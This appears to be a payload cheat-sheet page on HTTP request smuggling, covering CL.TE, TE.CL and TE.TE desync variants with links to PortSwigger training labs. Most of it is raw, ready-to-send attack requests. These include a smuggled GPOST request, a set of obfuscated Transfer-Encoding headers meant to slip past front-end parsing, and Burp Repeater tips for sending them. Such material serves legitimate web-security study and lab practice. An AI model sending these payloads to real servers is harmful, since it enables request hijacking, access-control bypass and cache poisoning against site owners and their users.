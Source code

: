 # Request Smuggling

## Summary

* [Tools](#tools)
* [CL.TE vulnerabilities](#cl.te-vulnerabilities)
* [TE.CL vulnerabilities](#te.cl-vulnerabilities)
* [TE.TE behavior: obfuscating the TE header](#te.te-behavior-obfuscating-the-te-header)
* [References](#references)

## Tools

* [HTTP Request Smuggler / BApp Store](https://portswigger.net/bappstore/aaaa60ef945341e8a450217a54a11646)

## CL.TE vulnerabilities

> The front-end server uses the Content-Length header and the back-end server uses the Transfer-Encoding header.

```powershell
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```

Example:

```powershell
POST / HTTP/1.1
Host: domain.example.com
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

Challenge: https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te

## TE.CL vulnerabilities

> The front-end server uses the Transfer-Encoding header and the back-end server uses the Content-Length header. 

```powershell
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0
```

Example:

```powershell
POST / HTTP/1.1
Host: domain.example.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.86
Content-Length: 4
Connection: close
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
x=1
0


```

:warning: To send this request using Burp Repeater, you will first need to go to the Repeater menu and ensure that the "Update Content-Length" option is unchecked.You need to include the trailing sequence \r\n\r\n following the final 0.

Challenge: https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl

## TE.TE behavior: obfuscating the TE header

> The front-end and back-end servers both support the Transfer-Encoding header, but one of the servers can be induced not to process it by obfuscating the header in some way.

```powershell
Transfer-Encoding: xchunked
Transfer-Encoding : chunked
Transfer-Encoding: chunked
Transfer-Encoding: x
Transfer-Encoding:[tab]chunked
[space]Transfer-Encoding: chunked
X: X[\n]Transfer-Encoding: chunked
Transfer-Encoding
: chunked
```

Challenge: https://portswigger.net/web-security/request-smuggling/lab-ofuscating-te-header

## References

* [PortSwigger - Request Smuggling](https://portswigger.net/web-security/request-smuggling)
* [A Pentester's Guide to HTTP Request Smuggling - Busra Demir - 2020, October 16](https://blog.cobalt.io/a-pentesters-guide-to-http-request-smuggling-8b7bf0db1f0)